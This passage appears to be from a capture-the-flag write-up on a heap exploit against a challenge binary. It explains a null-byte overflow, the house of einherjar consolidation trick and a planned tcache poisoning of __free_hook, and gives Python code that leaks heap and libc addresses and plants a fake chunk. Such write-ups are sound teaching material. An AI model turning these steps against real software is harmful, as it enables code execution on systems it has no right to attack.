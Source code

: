 ### Exploitation

So our bug is a basic nullbyte overflow into the size field of the next chunk.
To exploit such primitive, we can use the house of einherjar technique.

The idea of this technique is to overwrite into the `size` of the next chunk in memory and clear the `PREV_IN_USE` flag to 0.

Also, it overwrites into prev_size (already in the previous chunk's data region) a fake size. 

When the next chunk is freed, it finds the previous chunk to be free and tries to consolidate by going back 'fake size' bytes in memory. 

But in reality, the previous chunk isn't even freed. this can give us an overlapping chunks primitive which gives the same result as a UAF.

Then we can do a tcache poisening attack to write into `__free_hook` and gain RCE.

Now its time to implement all of this.

Lets start by getting leaks. We can get an heap leak by allocating a chunk, freeing it, allocating again and reading the contents.

it will contain the fd pointer of the next chunk, which points to the heap:

```py
do_str(0x70, 'b')
do_str(0x70, 'a')
do_free(0)
do_free(1)
do_str(0x70, 'P')

heap_leak = (u64(do_tok(0, "a").ljust(8, b'\x00'))) & (0xfffffffffffff000)

log.info(f"HEAP LEAK @ {hex(heap_leak)}")
```

We can do the exact same thing to get a libc leak. we just need to use a bigger size, so that our freed chunk will go into the unsorted bin, and not the tcache.

```py
fake_chunk_address = heap_leak + 0x1370
fake_chunk = p64(0x100) + p64(fake_chunk_address + 0x10) * 2 + p64(fake_chunk_address) * 2

do_str(0x1000, 'A')
do_str(0x50, b'G' * 8 + fake_chunk)
do_free(1)
do_str(0x1000, 'A')
do_str(0x60, b'F')
libc.address = u64(do_tok(1, "a").ljust(8, b'\x00')) - 0x3ebc41

log.info(f"LIBC LEAK @ {hex(libc.address)}")
```
You can see that I've created a fake chunk inside one of the allocated strings.

This will be used later, after triggering the vulnerability , We will consolidate backwards to this fake chunk. 
